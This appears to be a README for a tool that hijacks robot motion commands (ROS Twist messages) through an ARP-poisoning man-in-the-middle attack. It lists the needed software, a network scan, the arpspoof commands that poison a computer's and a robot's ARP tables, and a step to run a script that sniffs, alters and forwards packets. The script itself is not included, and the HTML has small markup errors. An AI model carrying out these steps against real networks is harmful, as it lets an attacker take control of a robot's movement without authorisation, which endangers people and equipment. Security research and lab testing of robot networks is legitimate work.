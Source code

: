 <section>
    <h2>#Pre-requisites</h1>
    <article>
        The following software is required:
        <ul>
            <li>Python (preference >= 3.8)</li>
            <li>Scapy (2.4.5) -> `$ sudo apt install scapy && python -m pip install scapy`</li>
            <li>arpspoof (2.4) -> `$ sudo apt install arpspoof`</li>
            <li>Turn off IP forwarding, if enabled -> `$ sudo net.ipv4.ip_forward=0`</li>
        </ul>
    <article>
</secion>
<section>
    <h2>#Usage</h2>
    <article>
        The first step is to scan the network to find the target computers information. Nmap is a good tool for this (`$ nmap -sn 192.168.1.0/24`). Once you have the IP address of the computers, you can begin.<br>
        Firstly, you need to poison the ARP tables of both the target computer (TARGET_A) and robot (TARGET_B). To do this, run the following commands:<br>
        `$ sudo arpspoof -t TARGET_A_IP TARGET_B_IP` <br> 
        `$ sudo arpspoof -t TARGET_B_IP TARGET_A_IP` <br>
        If you don't have the MAC addresses of the computers, you can get them at this point using `$ arp`.<br>
        Next fill in the required information in the script `geometry_msgs_twist_pitm.py`.<br>
        Finally, you can run the script `geometry_msgs_twist_pitm.py` to sniff, manipulate, and forward packets.
    </article>
</section>